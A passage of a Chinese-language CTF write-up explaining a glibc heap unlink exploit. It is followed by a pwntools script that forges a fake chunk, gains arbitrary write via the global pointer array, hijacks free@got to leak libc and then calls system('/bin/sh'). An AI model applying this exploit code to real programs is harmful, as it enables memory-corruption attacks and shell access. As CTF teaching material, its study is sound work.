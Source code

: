 ## 0x03 exploit

unlink的实现原理搞清楚了，本题的利用思路也就很清楚了。

1. 由于本题没有调用setbuf，因此gets和printf第一次调用时会申请chunk，因此malloc第一个0x400的chunk1来调用gets和printf，先申请好他们的chunk，不影响我们后续的堆布局。chunk1的地址保存在bss段data[1]中。
2. malloc 0x20和0x80的chunk2和chunk3，修改chunk2内容，伪造fake_chunk 并溢出chunk3的PREV_SIZE和PREV_INUSE，free chunk3来unlink fake_chunk，实现修改data[2]，劫持了chunk2的指针为fake_chunk-0x18，也就是data[-1]的位置。
3. 修改chunk2，实现对bss段data[]内容的修改，就劫持了chunk 1 2 3 的指针。由于要泄漏libc，修改chunk2时修改data[1]为free@got，继续修改chunk1时，就可以 修改free@got的内容，劫持free函数。由于要泄漏libc，因此劫持free@got为puts@plt。
4. 同理，劫持free@got为system地址，getshell。见exp.py。
5. 由于可以调用puts函数，因此libc也可以用pwntools的DynELF来得到，就不需要libc binary了，见exp2.py。

### exp.py

```python
def pwn(io):
    log.info("[1] create 1 2(malloc 0x20) 3(malloc 0x80) chunks")
    # binary don't have setbuf , heap looks like : gets's chunk, first user malloc chunk, printf's chunk
    create(0x400) # 1 first chunk in data[] number is 1 ;because ++malloc_times
    # gdb.attach(io,'break *0x400C85') # 0x0000000000400C85 atoi in main
    
    create(0x20) # 2  store fake chunk here
    # create smallbins 
    create(0x80) # 3
    # create(0x10) # 4 after unlink, don't merge with top chunks

    log.info("[2] arrange fake 0x21 chunk and fd bk in chunk2 & overflow 3's PREV_SIZE and PREV_INUSE")
    fake_unlink_p = 0x602150
    fd = fake_unlink_p-0x18
    bk = fake_unlink_p-0x10
    payload1_overflow = p64(0) + p64(0x21) + p64(fd) + p64(bk)+ p64(0x20) + p64(0x90) # overflow chunk3 PREV_INUSE , set to 0x90
    input(2,len(payload1_overflow),payload1_overflow)
    delete(3) # unlink chunk2 *(fake_unlink_p) = fd, change the global ptr data[2]@0x602150's content to FD (fake_unlink_p-0x18)!
    log.success("unlink success! we can arbitrary write now!")

    log.info("[3] write puts@plt into free@got and call puts(puts@got)")
    #                                                 1               2                3               4 
    payload2_globalptr = p64(0) + p64(0) + p64(elf.got['free']) + p64(fd) + p64(elf.got['puts']) + p64(0x400DEC) # //TODO
    input(2, len(payload2_globalptr), payload2_globalptr)
    input(1, 8, p64(elf.plt['puts']))
    delete(4) # puts("//TODO")
    delete(3) # puts(puts@got)

    io.recvuntil("//TODO\nOK\n")
    libc.address = u64(io.recv(6)+"\x00\x00") - libc.symbols['_IO_puts']
    log.success("glibc address base @ 0x%x",libc.address )

    log.info("[4] write &system into free@got and call system(\"/bin/sh\")")
    payload3_globalptr = p64(0) + p64(0) + p64(elf.got['free']) + p64(fd) + p64(fake_unlink_p+0x10) + "/bin/sh\x00"
    input(2, len(payload3_globalptr), payload3_globalptr)
    input(1, 8, p64(libc.symbols['system']))
    delete(3) # system("/bin/sh")
```
